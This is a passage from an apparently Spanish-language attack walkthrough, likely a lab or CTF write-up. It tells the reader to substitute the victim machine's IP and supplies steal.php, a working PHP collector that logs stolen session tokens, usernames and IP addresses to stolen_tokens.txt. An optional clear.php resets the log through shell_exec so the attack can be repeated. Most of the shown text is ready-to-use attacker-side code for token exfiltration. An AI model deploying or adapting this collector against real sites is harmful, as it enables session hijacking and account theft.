 (Cambiamos la parte de `<IP_VICTIM>` por la `IP` de la maquina victima donde esta la vulnerabilidad)

Tambien tendremos que crear lo que va a procesar la solicitud y volcarlo en un `.txt` para que lo podamos ver:

> steal.php

```php
<?php
// Obtener los datos JSON del cuerpo de la solicitud
$data = json_decode(file_get_contents("php://input"), true);

// Verificar si el token, nombre de usuario y IP están presentes
if (isset($data['token'], $data['username'], $data['ip'])) {
    // Abrir el archivo para escribir los datos
    $file = fopen('stolen_tokens.txt', 'a');  // 'a' abre el archivo para agregar datos
    if ($file) {
        // Escribir los datos en el archivo
        fwrite($file, "Token: " . $data['token'] . "\n");
        fwrite($file, "Username: " . $data['username'] . "\n");
        fwrite($file, "IP Address: " . $data['ip'] . "\n");
        fwrite($file, "----------------------\n");
        fclose($file);
        echo "Datos guardados correctamente.";
    } else {
        echo "Error al abrir el archivo para escribir los datos.";
    }
} else {
    echo "Faltan datos: token, username o ip.";
}
?>
```

Tambien crearemos un archivo llamado `stolen_tokens.txt` que este en el mismo directorio.

> OPCIONAL

Si queremos borrar el contenido del archivo `stolen_tokens.txt` para realizar de forma sucesiva el ataque, podremos crear lo siguiente:

> clear.php

```php
<?php
// clear.php
if (isset($_GET['action']) && $_GET['action'] == 'clear') {
    // Ruta al script bash (asegúrate de que la ruta es correcta y el script tenga permisos de ejecución)
    $output = shell_exec('/var/www/html/clear.sh');

    // Si el script devuelve algún resultado, lo mostramos
    if ($output) {
        echo "<pre>$output</pre>";
    } else {
        echo "El script se ejecutó correctamente pero no devolvió salida.";
    }
}
?>
```
